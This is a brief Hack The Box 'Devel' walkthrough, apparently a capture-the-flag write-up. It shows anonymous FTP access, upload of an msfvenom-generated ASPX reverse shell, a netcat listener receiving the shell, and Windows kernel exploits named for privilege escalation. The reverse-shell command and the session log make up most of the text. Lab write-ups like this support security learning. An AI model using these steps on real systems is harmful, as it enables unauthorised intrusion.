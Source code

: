 # Hack The Box - Devel

nmap to find http and ftp are open. You can log in ftp with anonymous and use the `put ~/test/newaspcmd.asp /newaspcmd.asp` to upload a shell/backdoor. Can generate one with msfvenom from below. Once you have a reverse shell, you can move exploits over. Remember that to move binaries you need to set the FTP binary mode on, otherwise you will get "This program can not be run in DOS mode" when trying to execute it. ms11-046.exe AFD.sys exploit works and can be found https://pentestlab.blog/tag/local-exploits/. To nagivate via the windows terminal is different. Use type to read files, dir to list directories, syteminfo for more information. More info for reconnaissance can be found here http://www.fuzzysecurity.com/tutorials/16.html

```
root@kali:~# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.129 LPORT=1234 -e x86/shikata_ga_nai -f aspx -o ~/test/shell.aspx
root@kali:~# ftp 10.10.10.5
Connected to 10.10.10.5.
220 Microsoft FTP Service
Name (10.10.10.5:root): anonymous
331 Anonymous access allowed, send identity (e-mail name) as password.
Password:
230 User logged in.
Remote system type is Windows_NT.
ftp> put ~/test/shell.aspx /shell.aspx
local: /root/test/shell.aspx remote: /shell.aspx
200 PORT command successful.
125 Data connection already open; Transfer starting.
226 Transfer complete.
2889 bytes sent in 0.00 secs (42.3872 MB/s)

root@kali:~# nc -lvp 1234
(visit webiste where it is located)

listening on [any] 1234 ...
10.10.10.5: inverse host lookup failed: Unknown host
connect to [10.10.14.129] from (UNKNOWN) [10.10.10.5] 49162
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

c:\windows\system32\inetsrv>

Now you can use ms10_015 kitrap0d exploit
```


